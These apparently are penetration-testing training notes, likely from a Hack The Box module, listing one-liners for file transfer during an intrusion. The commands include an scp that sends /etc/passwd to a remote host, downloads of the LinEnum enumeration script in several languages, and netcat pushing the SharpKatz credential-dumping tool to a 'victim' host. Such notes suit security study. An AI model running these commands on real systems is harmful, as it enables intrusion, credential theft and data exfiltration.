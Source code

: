 

- using python server and wget,curl

- using scp
```shell-session
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

## File Transfer using Code


- Python 2
```shell-session
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```


- python 3

```shell-session
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

- Php
```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
```shell-session
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

- ruby
```shell-session
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

- perl
```shell-session
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```



### Misc

```shell-session
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

```shell-session
pradyun2005@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

